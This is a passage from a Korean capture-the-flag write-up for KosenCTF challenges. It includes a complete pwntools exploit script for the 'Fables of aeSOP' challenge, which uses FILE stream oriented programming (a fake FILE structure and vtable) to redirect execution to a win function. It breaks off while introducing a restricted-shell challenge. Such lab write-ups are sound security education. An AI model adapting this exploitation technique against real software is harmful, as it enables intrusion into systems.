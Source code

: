 ```python
p.shutdown()
p.recvuntil('Password: ')
print p.recvline()
```



---



## Fables of aeSOP (335 pts, 16 solves)

bss 영역에 gets로 입력받고 fclose()를 호출한다.



문제 이름만 봐도 `FSOP` 문제임을 알 수 있으며, win 함수도 제공해주기 때문에 그냥 FSOP를 하면 된다.

```python
from pwn import *

#p = process('./chall')
p = remote("pwn.kosenctf.com", 9003)
e = ELF('./chall')
libc = e.libc

p.recvuntil('= ')
win = int(p.recvline(), 16)
pie_base = win & 0xfffffffff000
fake = pie_base + 0x202060

payload = ''
payload += p64(0) * 17
payload += p64(fake)         # null pointer
payload += p64(0) * 9
payload += p64(fake + 0x100) # fake vtable
payload += p64(win) * 30
payload += 'A' * (0x200 - len(payload))
payload += p64(fake)
p.sendline(payload)

p.interactive()
```



---



## pash (373 pts, 12 solves)

ssh에 접속하면 pash라는 프로그램이 실행되며 whoami, ls, pwd, cat, exit 명령을 사용할 수 있다.



whoami 명령을 사용해보면 pwn 권한 임을 알 수 있다. 또한 ls 명령을 이용해보면 현재 실행되어 있는 pash가 admin 권한으로 `set gid`가 걸려있는걸 확인 할 수 있다. 하지만 명령에 flag.txt가 포함되면 안된다.
